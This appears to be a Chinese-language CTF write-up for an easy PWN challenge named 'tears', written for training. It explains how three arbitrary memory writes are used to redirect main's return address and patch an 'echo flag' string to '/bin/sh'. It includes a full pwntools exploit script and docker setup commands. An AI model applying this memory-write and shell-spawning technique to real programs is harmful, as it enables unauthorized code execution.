 #### 1.题目名称

tears

#### 2.题目类型

PWN (easy)

#### 3.题目描述

行车不规范，亲人两行泪。哦不，其实是三行泪。

#### 4.考查知识点

考察任意地址写的利用

#### 5.解题思路

- 题目中提供了三次任意地址写的机会，每次最多可以写4字节。

- 由于关闭了ASLR和PIE，使用一次机会将main函数的返回地址修改为hack函数的地址。

- hack函数虽然只是执行`echo flag`，但是可以发现程序的.text段是有RWX权限的，因此可以利用剩余的两次机会将`echo flag`覆盖为`/bin/sh`，进而拿到shell。当然，覆盖为其他命令也是可以的，只要长度在8字节内均可。

- docker的环境和本地的环境可能存在差别，主要体现在返回地址的位置会不同。但是题目泄露了栈上一个变量的地址，可以通过这个地址计算出docker中返回地址的正确位置。

- 示例EXP如下：

```python
from pwn import *
p = process('./tears')

def send(index, value):
	p.recvuntil('Eye  >')
	p.sendline(hex(index))
	p.recvuntil('Tear >')
	p.sendline(str(value))

def recv():
	p.recvuntil('Your relative:')
	luck = p.recvuntil('\n')
	return luck

luck = int(recv(), 16)
local = 0xffffcfcc
diff = luck - local
send(0xffffcffc + diff, 0x0804883c)   
send(0x080bb888, 0x6e69622f) 
send(0x080bb88c, 0x2068732f) 
p.interactive()
```

#### 6.环境部署

如果需要编译二进制文件，执行：
```bash
make clean & make all
```
Build docker:
```bash
docker build -t "tears" .
```
Run docker:
```bash
docker run -d -p "0.0.0.0:2333:9999" tears
```
程序会在2333端口运行。
